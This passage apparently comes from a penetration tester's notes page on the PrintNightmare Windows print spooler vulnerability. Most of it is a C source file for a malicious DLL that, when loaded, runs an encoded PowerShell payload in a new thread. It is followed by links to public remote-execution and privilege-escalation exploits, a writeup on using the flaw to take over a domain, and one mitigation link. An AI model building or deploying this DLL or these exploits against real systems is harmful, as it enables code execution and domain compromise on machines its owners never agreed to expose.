 {% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

{% embed url="https://snovvcrash.github.io/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html" caption="Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain" %}


#### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)


#### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)



### Reproducibility

Flowchart by [@wdormann](https://twitter.com/wdormann):

{% embed url="https://twitter.com/wdormann/status/1412906574998392840" %}



### Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
